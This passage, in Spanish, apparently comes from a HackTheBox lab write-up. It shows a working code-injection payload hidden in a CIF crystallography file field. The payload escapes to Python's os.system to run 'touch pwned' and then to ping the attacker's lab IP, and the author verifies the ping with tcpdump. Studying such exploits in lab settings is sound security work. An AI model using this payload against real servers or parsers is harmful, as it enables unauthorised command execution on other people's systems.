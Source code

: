 
### File Upload

Editaremos el archivo `example.cif` para convertirlo en un archivo malicioso que ejecute instrucciones a nivel de sistema

~~~ bash
# The following field contains an embedded Python code exploit
_space_group_magn.transform_BNS_Pp_abc  
'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ 
(
    # Retrieve the second element in the Method Resolution Order (MRO) of the empty tuple `()`, which is the `object` class.
    *[().__class__.__mro__[1]]
    +
    # Concatenate with the string "__subclasses__".
    ["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]  # Find the subclass named "BuiltinImporter"
[0].load_module("os")                # Load the `os` module
.system("touch pwned");              # Execute the system command `touch pwned`
0,0,0'

# Other CIF data fields
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
~~~

- **En primera instancia, validaré la ejecución de comandos en el servidor con una traza ICMP a mi máquina atacante**

El archivo se vería de la siguiente forma haciendo un ping dentro de la función `system()` a mi IP de HackTheBox

~~~ python
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.254");0,0,0'
~~~

Ponemos a la escucha `tcpdump` y filtramos por el protocolo `icmp` para validar que la máquina nos envíe un `ping`. Ahora renombraremos el archivo para identificarlo más fácilmente

~~~ bash
mv example.cif rce.cif
~~~

Subimos el archivo `rce.cif` y hacemos clic en `View`
